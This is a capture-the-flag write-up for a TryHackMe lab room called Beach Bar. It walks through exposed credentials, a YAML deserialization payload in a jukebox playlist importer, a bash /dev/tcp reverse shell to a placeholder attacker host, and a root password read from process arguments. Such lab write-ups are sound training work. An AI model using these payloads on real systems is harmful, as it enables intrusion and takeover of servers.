# TryHackMe Hacker Holidays - Day 5
  
**Room:** Beach Bar  
**Room URL:** https://tryhackme.com/room/hh-beachbar-d849f7f7

## Introduction

This challenge focused on web application reconnaissance, exposed credentials, unsafe Python YAML deserialization, reverse-shell access, and Linux privilege escalation through sensitive information exposed in process arguments. The objective was to access the Beach Bar jukebox application, identify weaknesses in its playlist import feature, gain access to the underlying system, and locate both the user and root flags.

## Task 1 - Hacker Holidays: Day 5

After starting the TryHackMe machine, I connected to the lab network from Kali Linux using OpenVPN. I first verified that the target system was reachable:

```bash
ping -c 4 <TARGET_IP>
```

The target responded successfully, confirming that the VPN connection and communication with the lab machine were working.



I opened the URL provided in the room and reached the Beach Bar DJ booth sign-in page.



I did not initially have valid credentials, so I tested a few common SQL injection payloads against the login form. These attempts were unsuccessful, and there was no clear evidence that the application was vulnerable to SQL injection.

I then reviewed the page source and discovered information that appeared to contain valid login credentials.

After using the exposed credentials, I successfully authenticated to the application and reached the jukebox dashboard.





The authenticated dashboard provided **Export** and **Import** functionality. Selecting **Export** downloaded a file named `playlist.yml`.

I reviewed the file from Kali Linux:

```bash
cat playlist.yml
```

The file contained structured YAML data similar to the following:

```yaml
playlist:
  name: Sunset Session
  vibe: golden hour
  tracks:
    - artist: Khrungbin
      title: Maria Tambien
    - artist: Men I Trust
      title: Show Me How
```



When I selected **Import**, the application accepted playlist content in YAML format. Attempts to upload unrelated `.py` or `.php` files were rejected, confirming that the import feature was specifically designed to process YAML data.

Python YAML parsers can become dangerous when they process Python-specific object tags using an unsafe loader. To test whether the application was deserializing YAML securely, I replaced the normal `vibe` value with a harmless time-delay payload. 
Reference: https://hacktricks.wiki/en/pentesting-web/deserialization/python-yaml-deserialization.html

```yaml
playlist:
  name: Sunset Session
  vibe: !!python/object/apply:time.sleep [2]
  tracks:
    - artist: Khrungbin
      title: Maria Tambien
```

I pasted the modified YAML into the import page and loaded the playlist. The delayed response showed that the application executed the Python-specific YAML tag.







This confirmed that the playlist importer was vulnerable to **unsafe YAML deserialization**, allowing YAML input to trigger Python function execution on the server.

After confirming code execution with a non-destructive delay, I modified the `vibe` field to execute a reverse-shell command.
Reference: https://exploitnotes.org/exploit/linux/privilege-escalation/python-yaml#payloads

```yaml
playlist:
  name: Sunset Session
  vibe: !!python/object/new:os.system
    - "bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1'"
  tracks:
    - artist: Khrungbin
      title: Maria Tambien
```

Before importing the modified playlist, I started a Netcat listener on Kali Linux:

```bash
nc -lvnp <PORT>
```

I then submitted the YAML and selected **Load playlist**. The target connected back to my listener and provided a shell as the low-privileged `bartender` user.







From the shell, I confirmed the current user and searched the available home directories:

```bash
whoami
cd /home
ls
cd bartender
ls
```

The `bartender` home directory contained `user.txt`. Reading the file revealed the user flag:

```bash
cat user.txt
```



To identify a path to root, I returned to the Beach Bar application directory and examined the `jukeboxd` folder:

```bash
cd /opt/beach-bar/jukeboxd
ls
cat jukeboxd.py
```

The Python script used command-line arguments, including a required backend password argument named `--stream-pass`.



I then listed the running processes:

```bash
ps aux
```

The running jukebox process had been started with the backend password supplied directly as a command-line argument. Because process arguments were visible to the low-privileged user, the password could be recovered from the process listing.



I used the exposed password to switch to the root account:

```bash
su root
```

After confirming the new identity, I navigated to the root user's home directory and located `root.txt`:

```bash
whoami
cd /root
ls
cat root.txt
```

This revealed the root flag and completed the challenge.

